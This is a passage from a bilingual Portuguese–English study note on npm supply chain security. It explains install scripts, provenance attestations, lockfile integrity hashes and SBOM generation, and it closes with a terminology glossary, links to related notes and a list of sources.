**Compromised maintainer accounts** are the hardest to detect: the attacker publishes a malicious version through the legitimate account. The hash in the lockfile is correct (it's the hash of the malicious tarball), `npm audit` finds nothing. Defense: behavioral analysis tools like Socket.dev that compare new package versions against prior versions for new network calls, file access, or obfuscation.

**Install scripts** (`preinstall`, `postinstall`) execute arbitrary code on every `npm install` with the user's full permissions. Defense: `--ignore-scripts` / `ignore-scripts=true` in `.npmrc`; npm v12 (July 2026) makes this the default.

**Provenance and SLSA**: npm provenance (GA since October 2023) uses Sigstore to cryptographically link a published package to the exact source commit and CI pipeline that produced it. The attestation is recorded in Rekor, Sigstore's public transparency log. `npm audit signatures` verifies all installed packages. Limitation: provenance doesn't help if the CI pipeline itself is compromised (as shown by the Mini Shai-Hulud attacks in 2025-2026 where malicious packages had valid SLSA Build Level 3 attestations).

**Lockfile integrity**: the `integrity` field in `package-lock.json` is a SHA-512 hash of the package tarball. `npm ci` enforces immutable installs — it fails if the lockfile diverges from `package.json` and never updates it. Always use `npm ci` in CI/CD, never `npm install`.

**SBOM** (Software Bill of Materials): `npm sbom --sbom-format cyclonedx` generates a machine-readable inventory of all dependencies with versions, hashes, and licenses. Required by CISA guidelines and useful for responding to new vulnerabilities without scanning code.

| Português | Inglês |
|---|---|
| cadeia de fornecimento de software | software supply chain |
| pacote malicioso | malicious package |
| confusão de dependências | dependency confusion |
| desvio de nome (typo) | typosquatting |
| script de instalação | install/lifecycle script |
| hash de integridade | integrity hash |
| proveniência | provenance |
| atestado | attestation |
| log de transparência | transparency log |
| conta comprometida | compromised account / hijacked account |
| inventário de dependências | software bill of materials (SBOM) |
| superfície de ataque | attack surface |
| análise comportamental | behavioral analysis |
| installs imutáveis | immutable installs / frozen installs |
| registro privado | private registry |

---

## O que vem a seguir

Segurança de supply chain é um problema que se resolve em múltiplos níveis: nesta nota cobrimos o ecossistema de dependências npm. O próximo nível é entender como esses problemas se enquadram na segurança mais ampla do sistema — como confiança transitiva, cadeia de trust, e princípios de zero-trust se aplicam além do npm.

- [[23 - Build em produção, CI e determinismo]] — como determinismo no build e lockfiles imutáveis se conectam ao problema de reproducibilidade — a base técnica que torna os hashes de integridade significativos
- [[05 - Semver e o grafo de dependências]] — o modelo de resolução de versões que é o terreno onde dependency confusion e typosquatting operam
- [[03 - Package managers - npm, pnpm, yarn e Bun]] — como pnpm strict mode e hoisting afetam o isolamento de pacotes e a superfície de ataque
- [[index|trilha Tooling e Build]] — visão completa da trilha
- [[03-Dominios/Engenharia/Segurança/17 - Confiança transitiva e Trusting Trust|Confiança transitiva e Trusting Trust]] — o ensaio de Ken Thompson sobre como a confiança em compiladores e ferramentas é fundamentalmente recursiva — a base filosófica de toda supply chain security

---

## Fontes

- **GitHub Blog** — [*Introducing npm package provenance*](https://github.blog/security/supply-chain-security/introducing-npm-package-provenance/) — anúncio oficial do GA de provenance, mecanismo técnico completo
- **Snyk** — [*npm Security Best Practices: Shai Hulud Attack*](https://snyk.io/articles/npm-security-best-practices-shai-hulud-attack/) — análise pós-ataque das campanhas Mini Shai-Hulud 2025
- **Alex Birsan** — [*Dependency Confusion*](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) — o artigo original do ataque de 2021, leitura obrigatória
- **npm Docs** — [*Generating provenance statements*](https://docs.npmjs.com/generating-provenance-statements/) — documentação oficial de como configurar provenance em CI
- **npm Docs** — [*npm sbom*](https://docs.npmjs.com/cli/v9/commands/npm-sbom/) — referência do comando de geração de SBOM
- **Sigstore Blog** — [*cosign verification of npm provenance*](https://blog.sigstore.dev/cosign-verify-bundles/) — verificação de provenance via cosign CLI
- **The Hacker News** — [*GitHub to Disable npm Install Scripts by Default*](https://thehackernews.com/2026/06/github-to-disable-npm-install-scripts.html) — anúncio do npm v12 com scripts desabilitados por padrão
- **Microsoft Security Blog** — [*33 malicious npm packages abuse dependency confusion*](https://www.microsoft.com/en-us/security/blog/2026/05/29/33-malicious-npm-packages-abuse-dependency-confusion-profile-developer-environments/) — análise de ataque de dependency confusion em 2026
- **Mondoo** — [*npm Supply Chain Security in 2026*](https://mondoo.com/blog/npm-supply-chain-security-package-manager-defenses-2026) — panorama atual das defesas disponíveis

---

*Supply chain security em uma frase: você não confia só no código que escreve — você confia em cada mantenedor de cada pacote que você instala, direta ou transitivamente; as práticas desta nota existem para tornar essa confiança verificável em vez de cega.*
